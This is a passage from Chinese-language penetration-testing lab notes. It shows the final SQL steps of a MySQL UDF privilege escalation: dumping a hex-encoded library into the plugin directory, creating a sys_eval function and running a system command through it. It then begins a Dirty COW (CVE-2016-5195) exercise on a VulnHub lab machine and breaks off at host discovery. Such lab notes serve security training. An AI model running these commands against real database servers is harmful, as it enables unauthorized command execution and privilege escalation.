     ```bash
    select unhex('udf什六进制内容')into dumpfile '/usr/lib64/mysql/plugin/ichunqiu.so';
    ```
7. 声明创建函数

    ```bash
    create function sys_eval returns string soname 'ichunqiu.so';
    ```
8. 执行提权函数

    ```bash
    select sys_eval('whoami');
    ```

    ‍

‍

## 脏牛提权-CVE-2016-5195

### 搭建阶段

1. 环境 vulhub [lampiao](https://www.vulnhub.com/entry/lampiao-1,249/ "lampiao")   <span data-type="text" style="color: var(--b3-font-color8);">NAT模式</span>

    ​![image](assets/image-20241029195750-84a8l95.png)​

    报错解决法1：从vmware网站下载ovftool 4.1版本安装后，将安装目录下的文件，覆盖到VMware Workstation安装目录下的ovftools目录下即可。

    报错解决法2：导入虚拟机的文件夹不能是vmdx原文件所在文件夹
2. 不用登录

    ​![image](assets/image-20241029200020-9xmc7n9.png)​

### 信息收集

1. kali   两种扫描存活主机方法
